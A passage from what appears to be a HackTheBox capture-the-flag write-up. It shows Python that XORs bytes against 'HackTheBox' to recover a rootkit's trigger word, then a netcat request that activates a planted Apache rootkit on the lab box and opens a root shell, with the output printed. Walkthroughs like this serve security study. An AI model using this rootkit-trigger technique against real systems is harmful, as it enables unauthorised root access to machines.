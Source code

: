 These are the first 10 bytes of that address and now lets XOR that to the string with Python:
 ```python
b1 = bytearray("\x0e\x14\x0d\x38\x3b\x0b\x0c\x27\x1b\x01")
b2 = bytearray("HackTheBox")

for i in range(0,10):
    print(chr(b1[i] ^ b2[i]))
```

This outputs _"FunSociety"_ which can be used as a GET parameter to use the **apache_modrootme** rootkit:
```markdown
nc 10.10.10.80 80
GET FunSociety

# Output
rootme-0.5 DarkArmy Edition Ready
id
uid=0(root) gid=0(root) groups=0(root)
```

It started a shell on the box as root!

